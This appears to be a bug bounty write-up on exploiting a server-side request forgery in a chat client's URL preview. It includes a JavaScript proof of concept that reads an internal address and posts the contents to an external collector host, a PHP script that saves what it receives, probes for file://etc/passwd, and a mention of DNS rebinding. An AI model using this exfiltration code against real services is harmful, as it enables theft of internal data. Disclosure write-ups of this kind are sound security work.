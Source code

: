 # [bugbounty]A Simple SSRF

This is a private program<br>
First of all, its web assets have several subdomains. After I tested it for a while, I plan to check out the mac client.
After installation, sign up for login, then I see a chat interface.<br>
Send a URL
![enter image description here](https://raw.githubusercontent.com/Jinone/jinone.github.io/master/_posts/1.png)
It seems to preview the url, return a title and favicons<br>
I use my server ip to test. Then received<br>
![enter image description here](https://raw.githubusercontent.com/Jinone/jinone.github.io/master/_posts/t3.png)
Found that is the browser's ua header<br>
Then I tested it http://127.0.0.1 https://127.0.0.1 file://etc/passwd ....<br>
Tested a lot of common internal ip<br>
But<br>
![enter image description here](https://raw.githubusercontent.com/Jinone/jinone.github.io/master/_posts/t1.png)
![enter image description here](https://raw.githubusercontent.com/Jinone/jinone.github.io/master/_posts/t2.png)
No effect<br>
Then I tried the subdomain brute force, as well as some asset discovery sites to find internal ip<br>
Until there is an ip<br>
![enter image description here](https://raw.githubusercontent.com/Jinone/jinone.github.io/master/_posts/t4.png)
Seems to be successful<br>
Then I quickly submitted the vulnerability<br>
But<br>
![enter image description here](https://raw.githubusercontent.com/Jinone/jinone.github.io/master/_posts/t5.png)
As written above, we can only get a very small amount of content.<br>
After testing, I found that it will also execute js because it is browser ua<br>

  

 

    <html><p id='d1'></p>
    <script>
        function get(url) {
            try {
                var req = new XMLHttpRequest();
                req.open('GET', url, false);
                req.send(null);
                if(req.status == 200)
                    return req.responseText;
            } catch(err) {
            }
            return null;
        }
        var role = get('https://google.com');
        document.getElementById("d1").innerHTML=role.length;
    </script></html>
    
    
![enter image description here](https://raw.githubusercontent.com/Jinone/jinone.github.io/master/_posts/t6.png)
Can successfully get Google returns the content length<br>
Does not seem to be blocked by Same Origin Policy<br>
Then we can get any internal network content<br>
**poc**<br>
xxx.php


    <?php
    file_put_contents("save.txt", $_POST['cc'] . "\n", FILE_APPEND);
    ?>
    
poc.html


    <html><p id='d1'></p>
    <script>
    function get(url) {
        try {
            var req = new XMLHttpRequest();
            req.open('GET', url, false);
            req.send(null);
            if(req.status == 200)
                return req.responseText;
        } catch(err) {
        }
        return null;
    }
    function post(url,content){
        var req = new XMLHttpRequest();
        req.open("POST", url, true);
        var formData = new FormData();
        formData.append("cc", content);
        req.send(formData);
    }
    var role = get('https://Internal ip');
    post('https://xxxxxxxxxxx.com/xxx.php',escape(role));
    document.getElementById("d1").innerHTML=role.length;
    </script></html>
    
Then check save.txt<br>
![enter image description here](https://raw.githubusercontent.com/Jinone/jinone.github.io/master/_posts/t8.png)
Url decoding<br>
![enter image description here](https://raw.githubusercontent.com/Jinone/jinone.github.io/master/_posts/t9.png)

**If Same Origin Policy blocks**<br>
Bypass Same Origin Policy with DNS-rebinding to retrieve  Internal server .<br>
![enter image description here](https://user-images.githubusercontent.com/5891788/53449161-87e47300-3a19-11e9-8e3c-7b7bdfeaab6b.png)

Details from https://github.com/mpgn/ByP-SOP<br>
Finally ![enter image description here](https://raw.githubusercontent.com/Jinone/jinone.github.io/master/_posts/t11.png)

